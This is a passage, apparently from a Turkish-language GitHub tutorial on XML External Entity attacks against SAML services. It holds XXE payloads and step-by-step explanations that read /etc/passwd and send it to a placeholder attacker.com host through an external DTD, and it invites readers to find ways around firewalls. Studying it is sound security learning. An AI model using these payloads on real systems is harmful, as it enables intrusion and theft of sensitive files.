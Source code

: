 - Saldırgan, hazırlanan XML içeriğini hedef SAML servisine gönderir.

- Hedef SAML servisi, gelen XML içeriğini işlerken DTD'yi analiz eder.

- DTD içinde tanımlanan dış varlıklar (%payload ve %internalSubset) işlenir. Bu işlem sonucunda, exfil adında bir dış varlık tanımlanır ve %internalSubset dış varlığına başvurularak /etc/passwd dosyasının içeriği elde edilir.

- Elde edilen /etc/passwd dosyasının içeriği, saldırganın kontrolündeki "http://attacker.com/?data=%internalSubset;" adresine gönderilir.


Sonuç olarak, saldırgan /etc/passwd dosyasının içeriğini elde edebilir ve bu bilgiyi http://attacker.com adresine gönderir. Bu şekilde, hedef sistemin hassas kullanıcı bilgileri saldırgan tarafından elde edilebilir.

Bununda engellenebileceğinin farkındayım. Fakat unutmayın bir hacker her zaman farklı düşünmeli. Sizi biraz daha farklı düşünmeye sevk ediyorum. Mesela olayı zorlaştıralım sizin attacker.com üzerine istek gönderemiyorsunuz çünkü firewall sizi engelliyor diyelim. Aynı zamanda ekrana herhangi bir çıktıda alamıyorsunuz çünkü bu da engelleniyor. Ne yaparsınız? Burada bırakır mısınız? Yoksa farklı bir atak tarzı düşünebiliyor musunuz? Bunun için bir issue bırakın ve atak yöntemlerinizi değerlendirelim.

<hr>

**External Entity Attack (Dış Varlık Saldırısı)**: Saldırgan, <!ENTITY> bildirimleriyle dış varlıkları referans göstererek yerel veya uzak dosyalara erişebilir veya ağ üzerindeki diğer hedeflere saldırabilir.

- Saldırgan, hedef SAML servisi üzerindeki bir uygulamayı hedef olarak seçer.
- Saldırgan, hedef SAML servisine göndermek üzere bir XML içeriği oluşturur.
- Saldırgan, DTD bölümünde aşağıdaki gibi bir dış varlık tanımı yapar:
```
<!ENTITY % payload SYSTEM "http://attacker.com/xxe.dtd">
<!ENTITY % externalEntity "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%internal;'>">
%payload;

Bu dış varlık tanımı, daha gizli bir payload olan "http://attacker.com/xxe.dtd" dosyasına işaret eder. Bu dosya, saldırganın kontrolündeki bir sunucuda bulunur.

```

- Saldırgan, oluşturulan dış varlık tanımlarını XML içeriği içinde kullanır:

```
<!DOCTYPE root [
<!ENTITY % externalEntity SYSTEM "http://attacker.com/xxe.dtd">
%externalEntity;
]>
<root></root>

```

- Saldırgan, hazırlanan XML içeriğini hedef SAML servisine gönderir.
- Hedef SAML servisi, gelen XML içeriğini işlerken DTD'yi analiz eder.
- DTD içinde tanımlanan dış varlıklar (%payload ve %externalEntity) işlenir ve ilgili URL'lere başvurulur.
- Saldırganın kontrolündeki "http://attacker.com/xxe.dtd" adresine istek gönderilir.
- Saldırganın kontrolündeki sunucudan gelen yanıt içindeki payload işlenir ve exfil adında bir dış varlık tanımlanır.
- exfil dış varlığına başvurularak istenilen veri (örneğin, hassas dosya içeriği) saldırgana gönderilir.

